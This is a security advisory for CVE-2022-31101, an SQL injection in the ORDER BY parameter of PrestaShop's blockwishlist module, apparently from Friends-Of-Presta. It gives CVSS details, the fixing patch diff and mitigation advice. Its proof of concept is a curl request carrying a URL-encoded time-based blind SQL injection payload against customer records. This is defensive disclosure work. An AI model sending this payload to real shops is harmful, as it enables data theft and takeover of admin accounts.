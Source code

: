 ```yaml
---
layout: post
title: "[CVE-2022-31101] Invalid order neutralization in an SQL query in PrestaShop blockwishlist module"
categories: modules
author:
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,blockwishlist"
severity: "high (8.8)"
---
```


**blockwishlist** is a prestashop extension which adds a block containing the customer's wishlists. In affected versions an authenticated customer can perform SQL injection. This issue is fixed in version 2.1.1. Users are advised to upgrade. There are no known workarounds for this issue. 

## Summary

* **CVE ID**: [CVE-2022-31101](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31101)
* **Published at**: 2022-06-24
* **Advisory source**: PrestaShop
* **Vendor**: PrestaShop
* **Product**: blockwishlist
* **Impacted release**: >=2.0.0, 2.1.1
* **Product author**: PrestaShop
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: high (8.8)

## Description

An authenticated customer can perform SQL injection.


## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

Technical and personal data leaks
Obtain admin access
Remove all data of the linked PrestaShop

## Proof of concept

Based on this [POC](https://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)

```bash
curl -v 'http://website.com/module/blockwishlist/view?id_wishlist=1&order=product.name%2C%20%28select%20case%20when%20%28id_customer%3D1%29%20then%20%28SELECT%20SLEEP%287%29%29%20else%201%20end%20from%20ps_customer%20where%20id_customer%3D1%29%3B%20--.asc'
```


## Patch of release 2.1.0 to 2.1.1

Issue is fixed in 2.1.1 in this [patch](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

```diff
--- a/src/Search/WishListProductSearchProvider.php
+++ b/src/Search/WishListProductSearchProvider.php
@@ -35,6 +35,7 @@ use PrestaShop\PrestaShop\Core\Product\Search\SortOrderFactory;
 use Product;
 use Shop;
 use Symfony\Component\Translation\TranslatorInterface;
+use Validate;
 use WishList;
 
 /**
@@ -167,7 +168,10 @@ class WishListProductSearchProvider implements ProductSearchProviderInterface
 
         if ('products' === $type) {
             $sortOrder = $query->getSortOrder()->toLegacyOrderBy(true);
-            $querySearch->orderBy($sortOrder . ' ' . $query->getSortOrder()->toLegacyOrderWay());
+            $sortWay = $query->getSortOrder()->toLegacyOrderWay();
+            if (Validate::isOrderBy($sortOrder) && Validate::isOrderWay($sortWay)) {
+                $querySearch->orderBy($sortOrder . ' ' . $sortWay);
+            }
             $querySearch->limit((int) $query->getResultsPerPage(), ((int) $query->getPage() - 1) * (int) $query->getResultsPerPage());
             $products = $this->db->executeS($querySearch);
```


## Other recommandations

* It’s recommended to upgrade to the lastest version of the module **blockwishlist** up to 2.1.1.

Please note, blockwishlist is often forked to be customized.

* Upgrade PrestaShop beyond 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Links

* [PrestaShop product repository](https://github.com/PrestaShop/blockwishlist/security/advisories/GHSA-2jx3-5j9v-prpp)
* [POC](http://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)
* [Patch](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

